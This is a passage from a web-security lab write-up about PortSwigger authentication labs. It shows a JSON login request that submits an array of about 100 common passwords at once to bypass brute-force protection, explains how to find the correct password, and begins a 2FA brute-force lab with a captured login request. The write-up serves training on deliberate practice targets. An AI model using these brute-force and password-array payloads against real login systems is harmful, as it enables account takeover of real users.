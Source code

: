 ```
Accept-Language: en-US,en;q=0.9


{"username": "carlos","password":["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]}
```

And using this we get the following response.

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=DxHQMEI3apPwQCHcg2EfMN9CqBmGV4xI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Right-click on the request and click show response in the browser, copy the url and paste it on the browser url bar and solve the lab. Using this method we get access but we don't know the password yet we know passwords are one of them so just remove one password from the request one by one until you get the response of failed login and note the last password you removed and that's the correct password.

##### LAB #14: 2FA bypass using a brute-force attack

Lab URL: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack

Victim's Credentials: `carlos:montoya`

This Lab contains a Login functionality in which we can login using a username and password combination. If any of these is incorrect they throw an error `invalid username or password.` If we successfully login they redirect us to `/login2` and there they generate the MFA code and send it to use email or another authenticator application.  We have to send that 4-digit MFA code to the server and the server checks it and gives us access if correct or throws an error if it is incorrect. If we give two incorrect codes they logout of us and we have to log in again.

The login request and response are like the following.

```
Request:

POST /login HTTP/2
Host: 0a8e009503694f01c1f03aef00540000.web-security-academy.net
Cookie: session=LEGPo3ft8vJ3t80D2XHbtrQ507patnsn
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a8e009503694f01c1f03aef00540000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

csrf=sR7w3Cfe1dLosIcROnfi8ROzVzp2Wuej&username=carlos&password=montoya
```